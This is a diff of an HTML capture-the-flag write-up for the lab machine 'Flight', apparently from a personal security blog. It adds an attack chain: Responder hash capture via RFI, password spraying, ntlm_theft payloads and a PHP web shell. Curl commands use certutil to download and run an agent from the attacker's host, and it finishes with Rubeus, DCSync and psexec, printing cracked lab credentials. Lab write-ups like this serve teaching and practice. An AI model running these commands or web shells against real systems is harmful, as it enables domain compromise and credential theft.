

flight writeup

Changed region(s): [[0.0, 0.0, 1.0, 0.6561], [0.0, 0.686, 0.7583, 0.9842]]

diff --git a/writeups/flight.html b/writeups/flight.html
@@ -27,8 +27,8 @@
 							<ul>
 								<li><a href="#enu" id="sec1-link"><span>Enumeration</span></a></li>
 								<li><a href="#foothold" id="sec2-link"><span>Foothold</span></a></li>
-								<li><a href="#privesc" id="sec3-link"><span>Privilege Escalation</span></a></li>
-								<li><a href="#lessons" id="sec4-link"><span>Lessons Learned</span></a></li>
+								<li><a href="#lateral" id="sec3-link"><span>Lateral Movement</span></a></li>
+								<li><a href="#privesc" id="sec4-link"><span>Privilege Escalation</span></a></li>
 							</ul>
 						</nav>
 
@@ -55,7 +55,7 @@
 					<div class="container">
 						<header>
 							<h2 style="text-align: center;">Flight</h2>
-							<div style="text-align: center;">Published: Feb 17, 2025</div>
+							<div style="text-align: center;">Published: Jun 29, 2025</div>
 							<div style="text-align: center;"><img src="images/flight/flight.png"></div>
 						</header>
 					</div>
@@ -64,58 +64,205 @@
 				<!-- Content -->
 					<section id="enu" class="two">
 						<div class="container">
-							
-							<header>
-								<h2>Enumeration</h2>
-							</header>
+							<div class="content">
+								<header>
+									<h2>Enumeration</h2>
+								</header>
 
-							<img src="images/flight/enu1.png">
-							<p>
-								Upon visiting http[:]//flight.htb, none of the buttons seem to do anything.
-								Let's further enumerate by looking for subdomains.
-							</p>
-							<img src="images/flight/enu2.png">
-							<pre><code>file_get_contents("C:\\xampp\\htdocs\\school.flight.htb\\home.html");</code></pre>
+								<h3>Scan</h3>
+								<pre>nmap -sC -sV -oN scans/detailed.nmap 10.10.11.187</pre>
+								<p>
+									<img src="images/flight/enu1.png">
+								</p>
+
+								<h3>Web</h3>
+								<p>
+									Going to <code>flight.htb</code> shows what seems to be a static site with no attack vectors.
+									<img src="images/flight/enu2.png">
+								</p>
+								<p>
+									Enumerating for subdomains:
+									<pre>ffuf -u http://10.10.11.187 -H "Host: FUZZ.flight.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 7069</pre>
+									<img src="images/flight/enu3.png">
+								</p>
+
+								<h3>School Subdomain</h3>
+								<p>
+									This time, we notice that the server is using PHP, and the html content is being pulled via the <code>view</code> URL parameter
+									<img src="images/flight/enu4.png">
+								</p>
+								<p>
+									By changing the view parameter to <code>index.php</code>, we can view the source code. There seems to be some sort of security filter.
+									<img src="images/flight/enu5.png">
+								</p>
+							</div>
 						</div>
 					</section>
 
 					<section id="foothold" class="two">
 						<div class="container">
+							<div class="content">
+								<header>
+									<h2>Foothold</h2>
+								</header>
 
-							<header>
-								<h2>Foothold</h2>
-							</header>
+								<h3>Responder</h3>
+								<p>
+									The filter for backslashes is there as an attempt to stop the attack we will perform. 
+									We will be using an RFI to coerce the server into authenticating to an SMB server that we control to view a fake share, 
+									capturing the service account’s NTLMv2 hash in the process. Let’s use Responder to act as the malicious SMB server. 
+									We will get around the security filter by using forward slashes rather than backslashes.
+									<img src="images/flight/foo1.png">
+									<img src="images/flight/foo2.png">
+								</p>
+								<p>
+									Next, let’s crack the hash offline with <code>hashcat</code>
+									<pre>hashcat -m 5600 svc_apache.hash /usr/share/wordlists/rockyou.txt</pre>
+									The hash cracks pretty fast, giving us valid creds: <code>svc_apache:S@Ss!K@*t13</code> <br>
+								</p>
+								<p>
+									After some poking around in SMB shares, we don’t find anything too interesting with these creds.
+									<img src="images/flight/foo3.png">
+								</p>
 
-							<p>
-								Hello
-							</p>
+								<h3>Password Spray</h3>
+								<p>
+									One thing we can try is spray this password against all other users, testing for password reuse:
+									<pre># Get user list
+nxc smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --users
+# Spray after grabbing the user list
+nxc smb flight.htb -u users.txt -p 'S@Ss!K@*t13' --continue-on-success</pre>
+									<img src="images/flight/foo4.png">
+									More valid creds: <code>s.moon:S@Ss!K@*t13</code>
+								</p>
+							</div>
+						</div>
+					</section>
 
+					<section id="lateral" class="two">
+						<div class="container">
+							<div class="content">
+
+								<header>
+									<h2>Lateral Movement</h2>
+								</header>
+
+								<h3>NTLM Theft</h3>
+								<p>
+									With our new creds, let’s check our SMB access:
+									<pre>nxc smb 10.10.11.187 -u s.moon -p 'S@Ss!K@*t13' --shares</pre>
+									<img src="images/flight/lat1.png">
+								</p>
+								<p>
+									Now we have write access to the “Shared” share
+									Let’s try a similar attack as before using Responder, but this time, uploading a file that will cause the authentication attempt.<br>
+									To generate the payload, let’s use the following tool:<br>
+									<a href="https://github.com/Greenwolf/ntlm_theft">https://github.com/Greenwolf/ntlm_theft</a>
+									<pre>python3 ntlm_theft.py --generate all --server 10.10.14.11 --filename evil</pre>
+									<img src="images/flight/lat2.png">
+								</p>
+								<p>
+									With Responder still running, we will upload the desktop.ini payload to the “Shared” share
+									<img src="images/flight/lat3.png">
+								</p>
+								<p>
+									Cracking again with <code>hashcat</code>:
+									<pre>hashcat -m 5600 c.bum.hash /usr/share/wordlists/rockyou.txt</pre>
+									Creds: <code>c.bum:Tikkycoll_431012284</code> 
+								</p>
+
+								<h3>Web Shell</h3>
+								<p>
+									With the new creds, we have write perms on the web share:
+									<pre>nxc smb 10.10.11.187 -u s.moon -p 'S@Ss!K@*t13' --shares</pre>
+									<img src="images/flight/lat4.png">
+								</p>
+								<p>
+									Let’s upload a simple PHP shell as <code>cmd.php</code> to get RCE as <code>svc_apache</code>.<br>
+									PHP code:
+									<pre>&lt;?php system($_REQUEST['cmd']); ?></pre>
+								</p>
+								<p>
+									Uploading:
+									<img src="images/flight/lat5.png">
+								</p>
+								<h3>Mythic</h3>
+								<p>
+									We will be using <a href="https://github.com/its-a-feature/Mythic">Mythic</a> to manage callbacks, using apollo agents with a simple http profile.<br>
+									After building the apollo agent, let's deliver the payload with a simple python web server.<br>
+									Commands:
+									<pre># Download
+curl 'http://school.flight.htb/cmd.php?cmd=certutil.exe+-urlcache+-f+-split+http://10.10.14.11:8000/apollo.exe+C:\\Windows\\Tasks\\apollo.exe'
+# Execute
+curl 'http://school.flight.htb/cmd.php?cmd=C:\\Windows\\Tasks\\apollo.exe'</pre>
+									<img src="images/flight/lat6.png">
+								</p>
+								<p>
+									And we get a callback!
+									<img src="images/flight/lat7.png">
+								</p>
+								<p>
+									Now, we can move laterally to the “c.bum” user with the creds we got previously.
+									<pre>shell icacls "C:\Windows\Tasks\apollo.exe" /grant Everyone:F
+register_assembly # Pick RunasCs.exe
+execute_assembly -Assembly "RunasCs.exe -Arguments c.bum Tikkycoll_431012284 C:\Windows\Tasks\apollo.exe"</pre>
+									<img src="images/flight/lat8.png">
+									This gives us a callback as “c.bum”, which gives us <code>user.txt</code>
+								</p>
+							</div>
 						</div>
 					</section>
 
 					<section id="privesc" class="two">
 						<div class="container">
+							<div class="content">
 
-							<header>
-								<h2>Privilege Escalation</h2>
-							</header>
+								<header>
+									<h2>Privilege Escalation</h2>
+								</header>
 
-							<p>
-								Hello
-							</p>
-
-						</div>
-					</section>
-
-					<section id="lessons" class="two">
-						<div class="container">
-							<h3>Lessons learned:</h3>
-							<ul>
-								<li>Responder practice (RFI → ask for attacker’s SMB share & generating malicious desktop.ini</li>
-								<li>RunasCs.exe to execute commands as another user (and getting a shell as them)</li>
-								<li>Reverse port forwarding practice</li>
-								<li>Using Rubeus to craft ourselves a ticket, then using it after fixing clock skew</li>
-							</ul>
+								<h3>Enumeration</h3>
+								<p>
+									With some initial enumeration, we can see that there is IIS running on port 8000, and we have write access on <code>C:\inetpub\development</code>
+									<pre>shell netstat -ano | findstr LISTENING
+shell icacls development</pre>
+									<img src="images/flight/pe1.png">
+									<img src="images/flight/pe2.png">
+								</p>
+								<h3>IIS Abuse</h3>
+								<p>
+									First, let's start a socks proxy to access the internal site more easily.
+									<pre># In Mythic:
+socks5 7000</pre>
+									Adding FoxyProxy config:
+									<img src="images/flight/pe3.png">
+								</p>
+								<p>
+									Now we can access the internal IIS site from our browser:
+									<img src="images/flight/pe4.png">
+								</p>
+								<p>
+									A common way to abuse IIS is to upload a <code>.aspx</code> webshell, which we can do since we have write access. 
+									After using Mythic to upload the webshell, we navigate to it and get code execution as <code>IIS APPPOOL\DefaultAppPool</code>, 
+									which is a virtual account that we can use get system level access. Let's get a new callback then proceed with exploitation.
+									<img src="images/flight/pe5.png">
+								</p>
+								<p>
+									Let's use Rubeus to get a TGT
+									<img src="images/flight/pe6.png">
+								</p>
+								<p>
+									This gives us a ticket in kirbi base64 format, so let’s convert it to ccache then use it to perform a DCSync to grab Administrator credentials.
+									<pre>cat ticket.kirbi.b64 | base64 -d > ticket.kirbi
+impacket-ticketConverter ticket.kirbi ticket.ccache
+KRB5CCNAME=ticket.ccache faketime "$(ntpdate -q flight.htb | cut -d ' ' -f 1,2)" impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator -target-ip 10.10.11.187</pre>
+								<img src="images/flight/pe7.png">
+								</p>
+								<p>
+									Now, we can simple psexec to get a shell as SYSTEM
+									<img src="images/flight/pe8.png">
+								</p>
+							</div>
 						</div>
 					</section>
 			</div>

diff --git a/index.html b/index.html
@@ -80,6 +80,11 @@
 										</thead>
 										<tbody>
 											<tr>
+												<td><a href="https://bokkisec.com/writeups/flight">Flight</a></td>
+												<td style="color:red">Hard</td>
+												<td>Jun 29, 2025</td>
+											</tr>
+											<tr>
 												<td><a href="https://bokkisec.com/writeups/bastion">Bastion</a></td>
 												<td style="color:green">Easy</td>
 												<td>May 19, 2025</td>
@@ -107,11 +112,6 @@
 											<tr>
 												<td><a href="">Sizzle</a></td>
 												<td style="color:silver">Insane</td>
-												<td>Coming soon...</td>
-											</tr>
-											<tr>
-												<td><a href="">Flight</a></td>
-												<td style="color:red">Hard</td>
 												<td>Coming soon...</td>
 											</tr>
 											<tr>
